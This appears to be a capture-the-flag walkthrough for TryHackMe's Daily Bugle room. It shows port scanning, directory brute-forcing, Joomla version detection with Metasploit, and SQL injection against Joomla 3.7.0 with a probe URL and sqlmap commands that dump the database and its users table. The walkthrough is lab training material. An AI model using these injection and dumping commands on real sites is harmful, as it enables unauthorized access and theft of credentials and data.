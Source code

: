 
# Daily Bugle CTF Walkthrough

Daily Bugle is a vulnerable server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/dailybugle<br />
THM Difficulty: Hard<br />
My Difficulty: TBA<br />
Target IP: 10.10.217.112<br />
AttackBox IP: 10.10.222.48<br />
</i>

# Recon

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```shell
rustscan -a 10.10.217.112
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flags -sV -sC to find the service versions on the open port and to run Nmaps default scripts on the target.<br />
```
nmap -sV -p22,80,3306 10.10.217.112
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT2.png?raw=true)<br />
We have found multiple services running, let's have a closer look at these services.<br />

## HTTP Service Recon

We're going to start with looking at the HTTP Service, we can see it's running Apache 2.4.6 and PHP5.6.40 from the Nmap scan. I head over to the website below.
```shell
http://10.10.217.112/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT3.png?raw=true)<br />
Here we have our answer to the first question!<br />

Let's try having bruteforcing some directories with gobuster. I used the command below<br />
```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.217.112/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT4.png?raw=true)<br />
We are given plenty of results, the one that stood out to me was the /administrator directory, probably the login page for the administrators account? Let's have a look at it now<br />
```shell
http://10.10.217.112/administrator/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT5.png?raw=true)<br />
Our suspicion is confirmed, we know know that the web service is using Joomla!<br />

### Finding Joomla version with Metasploit

I wonder what version of Joomla they're using..? I know there's a module on Metasploit that does this so let's fire it up!<br />
```shell
msfconsole
```
Now that we have our metasploit loaded, let's look for the joomla version module.<br />
```shell
search joomla_version
use 0
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT6.png?raw=true)<br />
Now we have selected our module let's see what options it requires by using show options
```shell
show options
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT7.png?raw=true)<br />
As you can see from the options available, the only option required is RHOSTS so let's set that and run the scanner!
```shell
SET RHOSTS 10.10.217.112
exploit
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT8.png?raw=true)<br />
Success! We have found the version! This is also one of the answers to our questions. Let's see if this version has any vulnerabilities.

### Exploiting Joomla with Metasploit

We are now going to look for exploits in Joomla 3.7, let's continue in the Metasploit console and execute the folowing<br />
```shell
back
search joomla 3.7.0
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT9.png?raw=true)<br />
We can see one exploit available, let's select the exploit and run "info" for more information to make sure it's compatible with our version of Joomla.<br />
```shell
use 0
info
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT10.png?raw=true)<br />
As we can see from the results this is the correct exploit for our Joomla version. Let's try to explot Joomla! First we'll need to set the required options for the module. Then hit exploit like we did for the scanner!<br />
```shell
set RHOSTS 10.10.217.112
exploit
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT11.png?raw=true)<br />
Uh-oh something went wrong, let's have a look at the "info" command again, let's check out the exploit-db link they provide.<br />
```shell
https://www.exploit-db.com/exploits/42033
```
Let's check if we get an error message when trying to load the URL that's vulnerable. 
```shell
http://10.10.217.112/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT12.png?raw=true)<br />
We get the error message which confirms it's vulnerable to SQL injection. Let's try using SQLmap instead they have the syntax for the command on the exploit-db page.<br />

### Exploiting Joomla with SQLi using SQLMap

We're going to open up a new terminal and try the below command.<br />
```shell
sqlmap -u "http://10.10.217.112/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT13.png?raw=true)<br />
Success! We were able to get the database names, now let's dump the whole database and check the findings! We will use a similar command except replace --dbs with --dump-all. This will take a while so be patient.<br />

<b>This is not the best way to complete the CTF challenge, you could just dump the users instead of the whole database. To do this check SQLMaps syntax.</b><br />
```shell
sqlmap -u "http://10.10.217.112/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dump-all -p list[fullordering]
```
If you receive any messages or requests during the process just follow what I did below. If you understand what it's asking you, feel free to say no until you get the tables you want to dump.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT14.png?raw=true)<br />



In the example below I only pulled the table #__users and the columns, this is what you'll want to do if you want to skip dumping the whole database.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT15.png?raw=true)<br />







## Questions & Answers

Question 1:<br />
**Access the web server, who robbed the bank?** Spiderman<br />

Question 2:<br />
**What is the Joomla version?** 3.7.0<br />

Question 3:<br />
**What is Jonah's cracked password?** <br />

Question 4:<br />
**What is the user flag?** <br />

Question 5:<br />
**What is the root flag?** <br />

### Farewell, I hope you all enjoyed this write-up!

